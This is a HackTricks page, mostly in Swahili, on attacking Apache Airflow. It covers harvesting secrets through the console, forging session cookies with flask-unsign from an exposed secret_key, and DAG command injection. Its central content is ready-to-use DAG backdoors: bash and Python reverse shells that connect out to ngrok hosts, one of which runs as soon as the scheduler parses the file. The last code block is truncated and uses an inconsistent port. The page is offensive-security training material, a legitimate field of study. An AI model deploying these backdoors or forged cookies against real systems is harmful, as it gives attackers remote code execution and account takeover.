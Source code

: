 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) inatumika kama jukwaa la **kuandaa na kupanga mipango ya data au kazi**. Neno "kuandaa" katika muktadha wa mipango ya data linamaanisha mchakato wa kupanga, kuratibu, na kusimamia kazi ngumu za data zinazotokana na vyanzo mbalimbali. Lengo kuu la mipango hii ya data iliyopangwa ni kutoa seti za data zilizopangwa na zinazoweza kutumika. Seti hizi za data zinatumika sana na maombi mengi, ikiwa ni pamoja na lakini sio tu zana za akili ya biashara, sayansi ya data na mifano ya kujifunza mashine, ambazo zote ni msingi wa utendaji wa maombi makubwa ya data.

Kimsingi, Apache Airflow itakuruhusu **kupanga utekelezaji wa msimbo wakati kitu** (tukio, cron) **kinatokea**.

### Local Lab

#### Docker-Compose

Unaweza kutumia **faili ya usanidi ya docker-compose kutoka** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) kuanzisha mazingira kamili ya apache airflow docker. (Ikiwa uko kwenye MacOS hakikisha unatoa angalau 6GB ya RAM kwa VM ya docker).

#### Minikube

Njia rahisi moja ya **kufanya kazi apache airflo**w ni kuikimbia **na minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow inaweza kuhifadhi **taarifa nyeti** katika usanidi wake au unaweza kupata usanidi dhaifu ulio katika nafasi:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Kabla ya kuanza kushambulia Airflow unapaswa kuelewa **jinsi ruhusa zinavyofanya kazi**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

Ikiwa una **ufikiaji wa console ya wavuti** unaweza kuwa na uwezo wa kufikia baadhi au yote ya taarifa zifuatazo:

* **Variables** (Taarifa nyeti za kawaida zinaweza kuhifadhiwa hapa)
* **Connections** (Taarifa nyeti za kawaida zinaweza kuhifadhiwa hapa)
* Fikia kwenye `http://<airflow>/connection/list/`
* [**Configuration**](./#airflow-configuration) (Taarifa nyeti kama **`secret_key`** na nywila zinaweza kuhifadhiwa hapa)
* Orodha ya **watumiaji & majukumu**
* **Code ya kila DAG** (ambayo inaweza kuwa na taarifa za kuvutia)

#### Retrieve Variables Values

Variables zinaweza kuhifadhiwa katika Airflow ili **DAGs** ziweze **kufikia** thamani zao. Ni sawa na siri za majukwaa mengine. Ikiwa una **ruhusa za kutosha** unaweza kuzifikia kwenye GUI katika `http://<airflow>/variable/list/`.\
Airflow kwa kawaida itaonyesha thamani ya variable kwenye GUI, hata hivyo, kulingana na [**hii**](https://marclamberti.com/blog/variables-with-apache-airflow/) inawezekana kuweka **orodha ya variables** ambazo **thamani** yake itaonekana kama **asterisks** katika **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Hata hivyo, hizi **thamani** bado zinaweza **kupatikana** kupitia **CLI** (unahitaji kuwa na ufikiaji wa DB), **kutekeleza DAG** isiyo na mipaka, **API** inayofikia mwisho wa variables (API inahitaji kuwezeshwa), na **hata GUI yenyewe!**\
Ili kufikia hizo thamani kutoka kwenye GUI chagua tu **variables** unazotaka kufikia na **bonyeza kwenye Actions -> Export**.\
Njia nyingine ni kufanya **bruteforce** kwa **thamani iliyofichwa** kwa kutumia **uchujaji wa utafutaji** hadi upate:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

Ikiwa usanidi wa **`expose_config`** umewekwa kuwa **True**, kutoka kwa **role User** na **juu** wanaweza **kusoma** **config kwenye wavuti**. Katika usanidi huu, **`secret_key`** inaonekana, ambayo inamaanisha mtumiaji yeyote mwenye hii halali wanaweza **kuunda cookie yao iliyosainiwa ili kujifanya kuwa akaunti nyingine yoyote ya mtumiaji**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE katika Airflow worker)

Ikiwa una **ufikiaji wa kuandika** mahali ambapo **DAGs zimehifadhiwa**, unaweza tu **kuunda moja** ambayo itakutumia **reverse shell.**\
Kumbuka kwamba reverse shell hii itatekelezwa ndani ya **airflow worker container**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE katika Airflow scheduler)

Ikiwa utaweka kitu kifanyike **katika mzizi wa msimbo**, wakati wa kuandika hii, kita **fanywa na scheduler** baada ya sekunde chache baada ya kukiweka ndani ya folda ya DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG Creation

Ikiwa utafanikiwa **kushambulia mashine ndani ya klasta ya DAG**, unaweza kuunda **scripts za DAG** katika folda ya `dags/` na zitakuwa **zinakopiwa katika mashine zingine** ndani ya klasta ya DAG.

#### DAG Code Injection

Unapotekeleza DAG kutoka kwa GUI unaweza **kupitisha hoja** kwake.\
Hivyo, ikiwa DAG haijakodishwa vizuri inaweza kuwa **na udhaifu wa Command Injection.**\
Hivyo ndivyo ilivyotokea katika CVE hii: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Kila unachohitaji kujua ili **kuanza kutafuta command injections katika DAGs** ni kwamba **parameta** zinapatikana kwa kutumia **`dag_run.conf.get("param_name")`**.

Zaidi ya hayo, udhaifu huo huo unaweza kutokea na **mabadiliko** (zingatia kwamba kwa ruhusa ya kutosha unaweza **kudhibiti thamani ya mabadiliko** katika GUI). Mabadiliko yanapatikana kwa:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Ikiwa zinatumika kwa mfano ndani ya amri ya bash, unaweza kufanya uingizaji wa amri.

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
